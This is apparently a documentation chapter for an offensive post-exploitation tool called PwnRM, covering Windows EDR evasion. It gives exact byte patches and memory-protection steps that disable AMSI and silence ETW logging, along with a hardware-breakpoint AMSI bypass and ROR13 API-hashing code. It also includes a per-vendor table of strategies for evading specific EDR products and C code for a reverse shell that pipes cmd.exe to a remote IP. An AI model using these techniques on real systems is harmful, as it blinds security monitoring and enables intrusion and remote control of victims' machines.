



# 03 — Evasion, NT Internals & Runtime OPSEC

## 1. Low-Level User-Mode & Kernel-Mode Telemetry Architecture

Modern Windows endpoint detection and response (EDR) agents enforce security through a multi-tier telemetry hierarchy spanning user space, the Windows Subsystem native API, and NT kernel-mode callbacks:

```
+-------------------------------------------------------------------------------+
| User-Mode Process Space (wsmprovhost.exe / powershell.exe)                    |
|   ├── System.Management.Automation (PSRP Runspace Pipeline Engine)            |
|   ├── amsi.dll (AmsiInitialize, AmsiOpenSession, AmsiScanBuffer)              |
|   ├── ntdll.dll (EtwEventWrite, EtwEventWriteFull, Native Syscall Stubs)      |
|   └── EDR User-Mode Hook DLLs (csfalcon_*.dll, SentinelOneUser.dll)           |
+-------------------------------------------------------------------------------+
| User/Kernel Transition Boundary (Sysenter / Syscall)                          |
+-------------------------------------------------------------------------------+
| Kernel-Mode NTOSKRNL Subsystems & Driver Minifilters                          |
|   ├── ObRegisterCallbacks (Process & Thread Object Handle Stripping)          |
|   ├── PsSetCreateProcessNotifyRoutineEx (Process Creation Lineage Telemetry)   |
|   ├── PsSetCreateThreadNotifyRoutine (Remote Thread / Injection Detection)    |
|   ├── PsSetLoadImageNotifyRoutine (Module & Driver Load Tracking)             |
|   ├── FltRegisterFilter (Filesystem Minifilter Pre/Post I/O Inspection)       |
|   └── ETW-TI Provider (Microsoft-Windows-Threat-Intelligence Kernel Stream)   |
+-------------------------------------------------------------------------------+
```



---

## 2. In-Process AMSI Memory Patching (`amsi.dll!AmsiScanBuffer`)

The **Antimalware Scan Interface (AMSI)** provides an interface through which applications submit buffer contents to the installed antivirus engine. In PowerShell, every ScriptBlock, AST node, and dynamic expression is evaluated via `AmsiScanBuffer` prior to JIT compilation.

### 2.1 Low-Level AMSI Execution Flow



---

### 2.2 x64 Disassembly of Unpatched `AmsiScanBuffer`

On Windows 10, 11, and Server 2022/2025 (x64), `amsi.dll!AmsiScanBuffer` has the following function prologue:

```nasm
amsi!AmsiScanBuffer:
    4c 8b dc            mov     r11, rsp
    49 89 5b 08         mov     qword ptr [r11+8], rbx
    49 89 6b 10         mov     qword ptr [r11+10h], rbp
    49 89 73 18         mov     qword ptr [r11+18h], rsi
    57                  push    rdi
    48 83 ec 70         sub     rsp, 70h
    48 85 c9            test    rcx, rcx                ; Validate HAMSICONTEXT pointer
    74 3e               je      amsi!AmsiScanBuffer+0x4a ; Return E_INVALIDARG if NULL
    48 85 d2            test    rdx, rdx                ; Validate Buffer pointer
    74 39               je      amsi!AmsiScanBuffer+0x4a ; Return E_INVALIDARG if NULL
```

---

### 2.3 PwnRM Polymorphic Memory Patch Technique

Standard AMSI bypass strings (e.g. `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')`) are heavily signatured by Microsoft Defender. PwnRM bypasses static detection by dynamically resolving function pointers via reflection and applying an immediate return patch:

```nasm
; Return E_INVALIDARG (0x80070057) to force AMSI into a fail-open state:
    b8 57 00 07 80      mov     eax, 0x80070057         ; HRESULT E_INVALIDARG
    c3                  ret
```

#### Memory Page Protection Transition Flow:
1. **Module Resolution**: Obtains the base address of `amsi.dll` via dynamic reflection across loaded assemblies (`[AppDomain]::CurrentDomain.GetAssemblies()`).
2. **Function Address Discovery**: Locates `AmsiScanBuffer` virtual address without invoking `GetProcAddress`.
3. **Memory Page Transition**: Calls `kernel32.dll!VirtualProtect`:
   - `lpAddress`: Address of `AmsiScanBuffer`
   - `dwSize`: 6 bytes
   - `flNewProtect`: `PAGE_EXECUTE_READWRITE` (`0x40`)
   - `lpflOldProtect`: Stored for restoration (`0x20` / `PAGE_EXECUTE_READ`)
4. **Byte Overwrite**: Writes 6 patch bytes `\xb8\x57\x00\x07\x80\xc3` via `[System.Runtime.InteropServices.Marshal]::Copy()`.
5. **Memory Protection Restoration**: Immediately calls `VirtualProtect` to restore `PAGE_EXECUTE_READ` (`0x20`), preventing memory scanners (Moneta, PE-sieve) from flagging suspicious `PAGE_EXECUTE_READWRITE` code sections.

---

### 2.4 Hardware Breakpoint (DR0-DR3) Hooking Alternative

To operate in environments where memory page modification is monitored by hypervisor-enforced memory integrity (HVCI), PwnRM can configure hardware debug registers:
1. Sets `DR0` register to the address of `AmsiScanBuffer`.
2. Sets `DR7` control register to enable local breakpoint on execution.
3. Registers a Vectored Exception Handler (VEH) via `AddVectoredExceptionHandler`.
4. When `STATUS_SINGLE_STEP` is triggered:
   - Sets `RCX` or `RAX` to `0x80070057` (`E_INVALIDARG`).
   - Increments `RIP` to return directly to caller without modifying code memory bytes.

---

## 3. Event Tracing for Windows (ETW) Blinding (`ntdll.dll!EtwEventWrite`)

ETW streams security events from PowerShell (`Microsoft-Windows-PowerShell`, Provider GUID `{A0C1853B-5C40-4B15-8766-3CF1C58F985A}`) and .NET runtimes directly into the Windows Event Log and EDR sensors.

### 3.1 PowerShell Event IDs Neutralized

| Event ID | Provider Name | Telemetry Content Captured |
|---|---|---|
| **Event ID 4104** | `Microsoft-Windows-PowerShell/Operational` | **ScriptBlock Logging**: Captures full decoded text of executed scripts and dynamic blocks. |
| **Event ID 4103** | `Microsoft-Windows-PowerShell/Operational` | **Module Logging**: Captures pipeline execution details and cmdlet invocations. |
| **Event ID 4100** | `Microsoft-Windows-PowerShell/Operational` | **Transcription Logging**: Logs all interactive console inputs and text outputs to disk. |
| **Event ID 1** | `Microsoft-Windows-DotNETRuntime` | **CLR Assembly Load**: Tracks in-memory assembly loads and JIT method compilation. |

---

### 3.2 x64 Disassembly of `ntdll!EtwEventWrite`

```nasm
ntdll!EtwEventWrite:
    48 89 5c 24 08      mov     qword ptr [rsp+8], rbx
    48 89 6c 24 10      mov     qword ptr [rsp+10h], rbp
    48 89 74 24 18      mov     qword ptr [rsp+18h], rsi
    57                  push    rdi
    48 83 ec 30         sub     rsp, 30h
    49 8b d8            mov     rbx, r8                 ; EventDescriptor
```

### 3.3 PwnRM ETW Silencing Patch Logic

PwnRM neutralizes ETW telemetry across the host process by replacing the function prologue with an immediate return of `STATUS_SUCCESS` (`0x00000000`):

```nasm
; Clear EAX and return immediately
    31 c0               xor     eax, eax                ; STATUS_SUCCESS (0)
    c2 14 00            ret     0x14                    ; Clean up 5 stack parameters (0x14 = 20 bytes)
```
- **Byte Sequence**: `\x31\xc0\xc2\x14\x00`.
- **Result**: Every downstream call to `EtwEventWrite` in the current process silently returns success without emitting telemetry to kernel trace sessions or Event Log buffers.

---

## 4. In-Memory D/Invoke & Dynamic Reflection Engine

Traditional post-exploitation scripts rely on `Add-Type -TypeDefinition`, which creates temporary C# source files (`.cs`) in `%TEMP%` and compiles them using `csc.exe` (invoking `cvtres.exe`), generating high-signal process creation telemetry (Sysmon Event ID 1 & Event ID 11).

PwnRM uses **Dynamic Reflection & D/Invoke** without invoking `csc.exe`:



### 4.1 ROR13 Hash-Based API Resolution

To eliminate cleartext string references to sensitive Win32 API functions (`VirtualProtect`, `CreateProcess`, `AmsiScanBuffer`), PwnRM dynamically traverses the PE Export Address Table (EAT) and matches exported symbols against computed **ROR13 hashes**:

$$\text{Hash}(S) = \sum_{c \in S} \text{ROR32}(\text{CurrentHash}, 13) + c$$

```python
def ror13(name: str) -> int:
    h = 0
    for char in name:
        h = ((h >> 13) | (h << 19)) & 0xFFFFFFFF
        h = (h + ord(char)) & 0xFFFFFFFF
    return h

# Precomputed hashes:
# VirtualProtect -> 0xE553A458
# AmsiScanBuffer -> 0x5B5E1492
# EtwEventWrite  -> 0x48AE0A3C
```

---

## 5. Comprehensive Kernel Driver Callback & EDR Matrix

When operating on an endpoint, PwnRM's `!evasion --edr` module queries loaded kernel drivers via `driverquery /v` and `Win32_SystemDriver` WMI classes to identify active security sensors:

| Kernel Driver | Security Vendor | Security Product | Monitored Kernel Callbacks & Telemetry Points | Operational Strategy |
|---|---|---|---|---|
| **`csagent.sys`** | CrowdStrike | Falcon Sensor | `ObRegisterCallbacks` (LSASS handle stripping), `PsSetCreateProcessNotifyRoutineEx`, `PsSetLoadImageNotifyRoutine`. | Avoid touching `lsass.exe` directly; extract credentials via DPAPI / WAM / registry hives. |
| **`SentinelAgent.sys`** | SentinelOne | EDR Agent | Minifilter filesystem monitoring, kernel memory integrity inspection, behavioral heuristic tree. | Use memory-only assemblies (`!netrun -xor`); do not drop unencrypted `.exe` binaries to disk. |
| **`WdFilter.sys`** | Microsoft | Defender for Endpoint | Real-time filesystem I/O inspection, behavioral blocking, AMSI user-mode hook injection. | Apply PwnRM polymorphic AMSI + ETW patch upon initial connection. |
| **`edpa.sys`** | Broadcom / Symantec | DLP / Endpoint Protection | Minifilter file hooks, process injection block, removable media monitor. | Keep all file staging within PSRP memory buffers (`!upload -xor`). |
| **`cbk7.sys`** | VMware / Carbon Black | Carbon Black Cloud | Process creation telemetry, kernel ETW sink, network socket tracker. | Utilize in-band SOCKS5 proxy (`!socks`) over existing WinRM port 5985/5986. |
| **`atp.sys`** | Palo Alto Networks | Cortex XDR | Minifilter, process handle tracking, injected DLL monitoring. | Use unmanaged Win32 Winsock shell (`!revshell`) via D/Invoke to avoid PowerShell command logging. |
| **`sysmon.sys`** | Microsoft Sysinternals | System Monitor | Event IDs 1-26 (Process Create, Network Connect, ImageLoad, CreateRemoteThread, RawAccessRead). | Obfuscate command lines via AST splitting and avoid suspicious parent-child process relationships. |
| **`CyOptics.sys`** | BlackBerry Cylance | CylancePROTECT | Memory exploitation protection, script control hooks. | Run scripts exclusively inside existing PSRP Runspace context. |
| **`groundling.sys`** | Huntress | Huntress Agent | Process creation, persistence inspection (Scheduled Tasks, Services). | Avoid standard persistence locations; operate ephemeral memory implants. |
| **`eset.sys`** | ESET | Endpoint Security | Memory scanner, deep behavioral inspection. | Ensure page protection is reverted to `PAGE_EXECUTE_READ` after memory patching. |
| **`mfehidk.sys`** | Trellix / McAfee | Host Intrusion Prevention | Kernel filter driver, process injection protection, buffer overflow blocker. | Use native WinRM in-band streaming; avoid spawning child processes from `wsmprovhost.exe`. |
| **`tmactmon.sys`** | Trend Micro | Apex One / Deep Security | Kernel behavior monitor, process creation hooks, file access blocker. | Avoid writing scripts to disk; execute in-memory via `[System.Reflection.Assembly]::Load()`. |
| **`klif.sys`** | Kaspersky | Endpoint Security | System interceptor, network traffic inspector, kernel heuristic engine. | Encrypt network transport with Kerberos subkeys or HTTPS mutual TLS (5986). |
| **`hmpalert.sys`** | Sophos | Intercept X | Exploit prevention driver, ROP / shellcode detection, APC injection monitor. | Avoid reflective DLL injection in remote processes; use in-process D/Invoke delegates. |
| **`elastic-endpoint-driver.sys`** | Elastic | Elastic Security | Process, thread, and file event logging, ETW-TI integration. | Neutralize user-mode ETW event streams via `ntdll!EtwEventWrite` return-zero patch. |

---

## 6. Network Transport OPSEC & Traffic Camouflage

1. **Jitter & Delays**: PwnRM implements configurable timing jitter (`!opsec jitter <min> <max>`) to prevent beacon frequency detection by network threat analysis tools.
2. **Encrypted PSRP Chunking**: Commands and outputs are fragmented into encrypted SOAP envelopes. To network monitors, all post-exploitation traffic is indistinguishable from standard Microsoft remote management operations.
3. **In-Band Proxy Multiplexing**: SOCKS5 tunneling (`!socks`) multiplexes TCP data streams over existing WinRM HTTP (5985) or HTTPS (5986) connections without creating separate outbound ports.

---

## 7. Raw Winsock Win32 Reverse Shell (`!revshell`)

When an operator requires a direct, unmanaged TCP reverse shell, PwnRM invokes native Win32 sockets directly via D/Invoke without touching PowerShell wrappers:

```c
// Low-level Win32 socket setup sequence:
WSADATA wsaData;
WSAStartup(MAKEWORD(2, 2), &wsaData);

SOCKET sock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

struct sockaddr_in target;
target.sin_family = AF_INET;
target.sin_port = htons(PORT);
target.sin_addr.s_addr = inet_addr(IP);

WSAConnect(sock, (SOCKADDR*)&target, sizeof(target), NULL, NULL, NULL, NULL);

STARTUPINFO si;
PROCESS_INFORMATION pi;
ZeroMemory(&si, sizeof(si));
si.cb = sizeof(si);
si.dwFlags = STARTF_USESTDHANDLES;
si.hStdInput = (HANDLE)sock;
si.hStdOutput = (HANDLE)sock;
si.hStdError = (HANDLE)sock;

CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
```
- Standard I/O handles are directly assigned to the TCP socket descriptor.
- Bypasses PowerShell command-line logging and ScriptBlock telemetry entirely.
